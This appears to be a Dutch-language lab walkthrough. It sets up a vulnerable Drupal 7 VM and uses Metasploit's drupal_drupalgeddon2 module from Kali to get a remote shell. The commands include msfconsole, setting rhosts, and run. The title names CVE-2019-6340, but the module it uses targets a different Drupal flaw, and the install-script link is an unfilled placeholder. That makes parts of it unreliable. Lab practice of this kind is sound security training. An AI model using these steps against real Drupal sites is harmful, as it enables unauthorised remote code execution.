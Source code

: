 # CVE-2019-6340

## Drupal 7.x en 8.x - - RESTful Web Services unserialize() Remote Command Execution [Exploit](https://nvd.nist.gov/vuln/detail/CVE-2019-6340)

- we kunnen door een exploit die veroorzaakt is door een sanitization fout in de `Drupal 7/8 RESTful Web Services` module, een remote php code execution uitvoeren.

- We gaan [module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md) gebruiken van metasploit om de exploit uit te voeren.

- we moeten hiervoor eerst drupal installeren en de module `RESTful Web Services` installeren.

## VM Setup

- We gebruiken een debian 11 desktop vm vdi van osboxes (zodat we makkelijk kunnen copypasten).

- We gebruiken vboxmanage om de vm te maken en te starten, deze zal een simpele debian 11 gui vm aanmaken met 2gb ram en 2 cpu cores, deze vm zal ook 2 netwerk adapters hebben, 1 voor de host-only adapter en 1 voor de NAT adapter.

## drupal installeren

- we gaan eerst wget installeren zodat we de drupal installatie script kunnen downloaden.

```bash
sudo apt-get update
sudo apt-get install wget
```

- daarna gaan we mysql-server 5.7 repository opzetten (8 werkt niet met drupal 7).
Het zal vragen welke versie we willen installeren, we kiezen eerst voor debian buster (10) en dan voor mysql 5.7.

```bash
    wget https://dev.mysql.com/get/mysql-apt-config_0.8.18-1_all.deb &&
    sudo dpkg -i mysql-apt-config_0.8.18-1_all.deb &&
```

- we kunnen eindelijk onze script downloaden en runnen.

```bash
    wget https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/unix/webapp/drupal_drupalgeddon2.rb &&
    sudo wget drupalInstall.shLinK To be added &&
    sudo chmod +x drupalInstall.sh &&
    sudo ./drupalInstall.sh
```

- deze script zal drupal 7.54 installeren en de mysql database opzetten.
met root als gebruikersnaam en wachtwoord password voor de database.
er zal ook een drupal database aangemaakt worden met de naam drupal en password als wachtwoord.

- De nodige modules zullen ook gedownload worden(je moet wel nog de modules activeren in de drupal admin panel).

- als de script klaar is zou je normaal gezien drupal moeten kunnen bereiken op http://localhost/index.php of http://xxx.xxx.xxx.xxx/index.php (xxx.xxx.xxx.xxx is het ip van de vm) als u vanop een andere de kali vm wilt bereiken.

- we doen de basis configuratie van drupal en maken een admin account aan.

- we zetten entity en restful web services aan in de modules pagina.

- vanop kali vm gaan we de exploit uitvoeren.

## Exploit

- we starten metasploit op en zoeken de exploit.

```bash
msfconsole
```

- we gaan een externe module  gebruiken die we gevonden hebben.

```bash
use exploit/unix/webapp/drupal_drupalgeddon2
```

- we gaan de exploit configureren.

```bash
set rhosts xxx.xxx.xxx.xxx (ip van de vm)
set verbose true
check
run
```

- als alles goed is gegaan zou je nu van op uw terminal een shell moeten hebben op de vm.

- testen of het werkt.

```bash
whoami
```

## notes

- voor de externe module te gebruiken moet je een connectie hebben met het internet
- uw kali vm moet een host-only adapter als dezelfde die de vm heeft.
- errors zullen verschijnen op up drupal pagina, dit komt door php versie 7.4 die niet compatibel is met drupal 7.